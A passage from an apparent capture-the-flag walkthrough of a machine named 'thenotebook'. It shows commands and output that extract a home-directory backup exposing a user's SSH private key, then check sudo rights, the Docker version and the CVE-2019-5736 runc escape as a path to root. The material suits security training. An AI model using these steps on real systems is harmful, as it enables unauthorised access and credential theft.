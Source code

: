 ```bash
    10930      0 lrwxrwxrwx   1 root      root           31 Feb 12 06:17 /vmlinuz.old -> boot/vmlinuz-4.15.0-135-generic
    16385      4 drwxr-xr-x   2 root      root         4096 Feb 12 06:25 /snap
      843      4 -r--r--r--   1 root      root          548 Feb 12 06:25 /snap/README
       11     16 drwx------   2 root      root        16384 Feb 12 06:16 /lost+found
www-data@thenotebook:~/html$ 
```

```bash
www-data@thenotebook:/tmp/home$ tar -zxvf /var/backups/home.tar.gz -C /tmp; ls /tmp/home
tmp/homef /var/backups/home.tar.gz -C /tmp; ls /t
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
noah
```

# PrivEsc: Docker Escape overwriting `runc`

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

```bash
noah@thenotebook:~$ docker --version; ls /usr/bin/docker -l
Docker version 18.06.0-ce, build 0ffa825
-rwxr-xr-x 1 root root 38108056 Jul 18  2018 /usr/bin/docker
```

```bash
noah@thenotebook:~$ uname -m
x86_64
```

>Vulnerability Details : CVE-2019-5736	
runc through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host runc binary (and consequently obtain host root access) by leveraging the ability to execute a command as root within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to /proc/self/exe. 
